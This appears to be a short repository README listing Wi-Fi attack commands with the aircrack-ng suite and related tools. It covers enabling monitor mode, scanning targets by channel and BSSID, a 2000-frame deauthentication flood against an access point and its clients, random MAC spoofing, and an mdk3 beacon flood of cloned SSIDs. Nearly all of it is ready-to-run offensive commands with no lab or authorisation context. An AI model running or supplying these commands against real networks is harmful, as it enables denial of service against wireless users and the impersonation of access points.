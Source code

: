 
### Example of commands

### prep interface

```airmon-ng check kill```

```sudo airmon-ng start wlan1```

* now our monitor interface will be wlan1mon

----

### de-auth

scan for deauth prep, examples below

``` sudo airodump-ng wlan1mon --channel 6 ```

``` airodump-ng --channel 2 --bssid xx:xx:xx:xx:xx:xx wlan1mon ```

``` airodump-ng --channel 5 -w googleopendump --bssid xx:xx:xx:xx:xx:xx wlan1mon ```


----

### replay

Simple: ```aireplay-ng --deauth 2000```

More: ```aireplay-ng --deauth 2000 -a <bsid mac> -c <station client mac> ```

----

### MAC changer (if needed)

```
ifconfig wlan0 down
macchanger -r wlan0
ifconfig wlan0 up
```

----

### sporadic-clone-ap

```mdk3 wlan0 b -f ssid_list.txt  -g -a -c 6```

```-c``` being channel, can not specify for mixed results.




